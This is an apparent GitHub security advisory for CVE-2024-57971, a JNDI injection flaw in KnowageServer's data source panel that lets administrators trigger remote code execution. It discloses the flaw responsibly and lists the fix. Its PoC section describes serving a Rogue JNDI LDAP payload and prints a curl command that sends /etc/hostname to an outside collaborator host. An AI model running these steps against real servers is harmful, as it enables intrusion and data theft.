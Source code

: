 ## Overview
KNOWAGE is the open source analytics and business intelligence suite that allows you to combine traditional data and big/cloud data sources into valuable and meaningful information.

## Description
**KnowageServer, up to version **8.1.30**, does not properly validate user input for the “jndi” field in the “data sources” configuration panel. This behavior allows any user with role type “Administrator” (“roleTypeID”:28) to change the JNDI source at will by inserting a potentially malicious one, which could lead to remote code execution.**

JNDI injection is a type of attack that occurs when an attacker is able to inject malicious data into the JNDI data source used by an application, allowing them to execute arbitrary code on the application server. Proper validation and sanitization of user input can prevent this type of attack by ensuring that only safe data is used in JNDI queries.

The vulnerability was assigned a CVSS score of 9.1 - [CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H&version=3.1)

## PoC
The following PoC demonstrates how Remote Code Execution within the Knowage server can be achieved thanks to this vulnerability: Leveraging a malicious LDAP server will be conveyed the command `curl -d @/etc/hostname http://<redacted>.oastify.com` to exfiltrate the /etc/hostname file to a third http exfiltration server.

The attack process begins with the preparation of an LDAP server, which, upon receiving a request for an object (in our case “o=exploit”), responds with a Reference Ref object containing the command `curl -d @/etc/hostname http://<redacted>.oastify.com`. 
To perform this operation, this PoC uses **Rogue JNDI**, a malicious server developed by Veracode Research.

After starting the LDAP server, we edit the data source using the UI. The address of the malicious server is entered into the JNDI field as shown in the figures below. 
By clicking “TEST” on the UI the input is processed and the attack is launched.

<img width="610" alt="Evidence1" src="https://github.com/user-attachments/assets/435724f3-8677-4078-b8c2-8e818592b009">

<img width="760" alt="Evidence2" src="https://github.com/user-attachments/assets/40c8bbba-e7e0-4cea-b7fb-206d00c4338c">

By inspecting the log of the attacking server, it can be seen that the attack was launched.

![Evidence3](https://github.com/user-attachments/assets/dba1529e-dd8d-4562-980a-976875c04176)

Upon receiving the “o=exploit” object, the Knowage server executes the `curl -d @/etc/hostname http://<redacted>.oastify.com` command. 
By inspecting the log of the the exfiltration-server, it can be seen that the code execution was successful: the server received a POST request containing the /etc/hostname file.

<img width="326" alt="Evidence4" src="https://github.com/user-attachments/assets/9e549d15-b3dc-4f2f-ac83-477345c67430">

The correctness of the received hostname can be seen in the Knowage licensing page, as shown in the figures below.

<img width="757" alt="Evidence5" src="https://github.com/user-attachments/assets/6d1d6060-577e-490f-8822-496f0f13b316">

## Credits
- Jacopo Taccucci (@darumaseye)
- Special thanks to [@1nters3ct](https://github.com/1nters3ct) for his support in exploitation and publication❤️

## Timeline
- **07-10-2024**: The vulnerability was found and privately disclosed to the vendor;
- **16-10-2024**: A fix was released in version 8.1 as per commit: https://github.com/KnowageLabs/Knowage-Server/commit/f7d0362f737e1b0db1cc9cc95b1236d62d83dd0c 
- **15-02-2025**: Published in National Vulnerability Database as [CVE-2024-57971](https://www.cve.org/CVERecord?id=CVE-2024-57971) 
